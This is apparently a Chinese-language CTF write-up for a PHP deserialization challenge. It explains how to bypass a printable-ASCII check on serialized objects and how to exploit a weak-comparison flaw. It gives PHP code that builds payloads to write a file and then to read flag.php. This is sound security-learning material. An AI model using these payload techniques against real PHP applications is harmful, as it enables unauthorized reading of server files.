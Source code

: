 **is_valid()函数规定字符的ASCII码必须是32-125，而protected属性在序列化后会出现不可见字符\00*\00，转化为ASCII码不符合要求。。**

#### 方法：

**①PHP7.1以上版本对属性类型不敏感，public属性序列化不会出现不可见字符，可以用public属性来绕过**

**②private属性序列化的时候会引入两个\x00，注意这两个\x00就是ascii码为0的字符。这个字符显示和输出可能看不到，甚至导致截断，但是url编码后就可以看得很清楚了。同理，protected属性会引入\x00*\x00。此时，为了更加方便进行反序列化Payload的传输与显示，我们可以在序列化内容中用大写S表示字符串，此时这个字符串就支持将后面的字符串用16进制表示。**

**__destruct()魔术方法中，op==="2"是强比较，而process()使用的是弱比较op=="2"，可以通过弱类型绕过。**

op=2，这里的2是整数int类型，op=2时，op==="2"为false，op=="2"为true

想要写文件，但是没权限

```php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    public $op=1;
    public $filename="1.txt";
    public $content="1111111111111";


}


$a = new FileHandler();
var_dump(serialize($a));

```

传payload,回显

```txt

Warning: file_put_contents(1.txt): failed to open stream: Permission denied in /var/www/html/index.php on line 37
[Result]:
Failed!
```

那就只能尝试读取文件了。

```php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    public $op=2;
    public $filename="flag.php";
    public $content="";


}


$a = new FileHandler();
var_dump(serialize($a));

```